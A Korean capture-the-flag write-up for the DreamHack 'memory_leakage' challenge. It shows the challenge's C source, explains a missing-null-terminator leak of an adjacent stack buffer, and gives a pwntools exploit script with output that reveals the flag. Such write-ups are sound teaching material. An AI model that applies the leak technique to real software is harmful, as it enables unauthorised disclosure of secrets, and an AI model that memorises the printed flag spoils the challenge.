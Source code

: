 # [DreamHack] memory_leakage

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(memory_leakage)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [memory_leakage.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8556947/memory_leakage.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162668306-992f61c2-67dc-455d-8a14-9471c03ffc3d.png)

## Analysis

### my_page

```c
struct my_page {
	char name[16];
	int age;
};
```

### 1. Join

```c
			case 1:
				printf("Name: ");
				read(0, my_page.name, sizeof(my_page.name));

				printf("Age: ");
				scanf("%d", &my_page.age);
				break;
```

`name`과 `age`를 입력받는다.

### 2. Print information

```c
			case 2:
				printf("Name: %s\n", my_page.name); // memory leak
				printf("Age: %d\n", my_page.age);
				break;
```

`main()`의 스택에는 `my_page`와 `flag_buf`가 이어져 있다. `my_page.name`의 16바이트와 `my_page.age`의 4바이트를 `'\x00'` 없이 채워놓으면 `flag_buf`까지 같이 출력된다.

### 3. GIVE ME FLAG!

```c
			case 3:
				fp = fopen("/flag", "r");
				fread(flag_buf, 1, 56, fp);
				break;
```

`flag_buf`에 플래그를 읽어온다.

## Exploit

`flag_buf`에 플래그를 읽어온 뒤에 `2. Print information`으로 `flag_buf`를 leak하면 플래그를 획득할 수 있다.

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/memory_leakage')
else:
    r = remote('host1.dreamhack.games', 21779)

sla = r.sendlineafter
sa = r.sendafter

sla('> ', '1')
sa('Name: ', 'a' * 16)
sla('Age: ', str(0xffffffff))

sla('> ', '3')
sla('> ', '2')

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 21779: Done
[*] Switching to interactive mode
Name: aaaaaaaaaaaaaaaa\xff\xff\xff\x7fDH{a77ae81944bbbe70adb10d98dc191379}
Age: 2147483647
1. Join
2. Print information
3. GIVE ME FLAG!
> $
```